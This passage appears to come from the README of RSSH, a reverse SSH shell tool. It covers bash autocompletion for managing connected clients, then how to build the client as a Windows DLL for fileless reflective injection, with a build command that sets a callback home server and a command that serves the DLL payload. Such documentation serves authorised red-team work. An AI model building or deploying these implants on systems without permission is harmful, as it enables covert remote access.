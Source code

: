 The RSSH server has the `autocomplete` command which integrates nicely with bash so that you can have autocompletions when not using the server console. 
To install them you simply do:

```sh
ssh your.rssh.server.internal -p 3232 autocomplete --shell-completion your.rssh.server.internal:3232
```

And this will return an autocompletion that can be added to your `.zshrc` or `.bashrc`

E.g

```sh
_RSSHCLIENTSCOMPLETION()
{
    local cur=${COMP_WORDS[COMP_CWORD]}
    COMPREPLY=( $(compgen -W "$(ssh your.rssh.server.internal -p 3232 autocomplete --clients)" -- $cur) )
}

_RSSHFUNCTIONSCOMPLETIONS()
{
    local cur=${COMP_WORDS[COMP_CWORD]}
    COMPREPLY=( $(compgen -W "$(ssh your.rssh.server.internal -p 3232 help -l)" -- $cur) )
}

complete -F _RSSHFUNCTIONSCOMPLETIONS ssh your.rssh.server.internal -p 3232 

complete -F _RSSHCLIENTSCOMPLETION ssh -J your.rssh.server.internal:3232

complete -F _RSSHCLIENTSCOMPLETION ssh your.rssh.server.internal:3232 exec 
complete -F _RSSHCLIENTSCOMPLETION ssh your.rssh.server.internal:3232 connect 
complete -F _RSSHCLIENTSCOMPLETION ssh your.rssh.server.internal:3232 listen -c 
complete -F _RSSHCLIENTSCOMPLETION ssh your.rssh.server.internal:3232 kill 
```

Enabling you to do completions straight from your terminal:

```sh
# Will give you an option based on what clients are connected
ssh -J your.rssh.server.internal:3232 <TAB>
```

### Windows DLL Generation

You can compile the client as a DLL to be loaded with something like [Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1). Which is useful when you want to do fileless injection of the rssh client.

This will need a cross compiler if you are doing this on linux, use `mingw-w64-gcc`, this is included in the docker release.

```bash
# Using the link command
catcher$ link --goos windows --shared-object --name windows_dll
http://your.rssh.server.internal:3232/windows_dll

# If building manually
CC=x86_64-w64-mingw32-gcc GOOS=windows RSSH_HOMESERVER=192.168.1.1:2343 make client_dll
```
